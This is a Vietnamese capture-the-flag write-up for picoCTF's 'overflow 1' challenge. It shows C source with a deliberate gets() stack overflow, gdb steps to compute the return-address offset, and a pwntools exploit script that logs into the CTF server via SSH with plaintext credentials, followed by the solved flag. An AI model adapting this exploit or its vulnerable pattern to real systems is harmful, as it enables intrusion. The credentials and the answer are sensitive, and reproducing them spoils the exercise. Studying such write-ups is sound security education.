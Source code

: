 **Đây là source code bài này**
```sh
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>
#include "asm.h"

#define BUFFSIZE 64
#define FLAGSIZE 64

void flag() {
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("Flag File is Missing. please contact an Admin if you are running this on the shell server.\n");
    exit(0);
  }

  fgets(buf,FLAGSIZE,f);
  printf(buf);
}

void vuln(){
  char buf[BUFFSIZE];
  gets(buf);

  printf("Woah, were jumping to 0x%x !\n", get_return_address());
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  gid_t gid = getegid();
  setresgid(gid, gid, gid);
  puts("Give me a string and lets see what happens: ");
  vuln();
  return 0;
}
```
**Ý tưởng solve bài này**
Ta redirection ret_addr về địa chỉ của hàm flag thôi. 

Ta dùng GDB để tìm địa chỉ của hàm flag này bằng câu lệnh sau:
```sh
pwndbg> print flag
$1 = {<text variable, no debug info>} 0x80485e6 <flag>

```
Vấn đề còn lại chỉ là offset tính từ lúc nhập đến địa chỉ ret thôi.

```sh
ESP  0xffffd040 —▸ 0xffffd050 ◂— 'aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaS'
```
```sh
pwndbg> tele $ebp+4
00:0000│   0xffffd09c —▸ 0x8048705 (main+103) ◂— mov    eax, 0

```
```sh
pwndbg> p/x 0xffffd09c-0xffffd050
$2 = 0x4c

```
Có được offset coi như xong bài này, đây là file exploit.py của mình
```sh
from pwn import *
#s = process("./vuln")
s = ssh(host = '2019shell1.picoctf.com', user = 'hazir',password = '2k4')
r = s.run("cd  /problems/overflow-1_1_e792baa0d29d24699530e6a26071a260; ./vuln") 
raw_input("Debug")
p = "a"*0x4c+ p32(0x80485e6)
r.sendline(p)
r.interactive()
r.close()
```

Run nó và chờ đợi. :))
```sh
picoCTF{n0w_w3r3_ChaNg1ng_r3tURn5a1b468a7}
```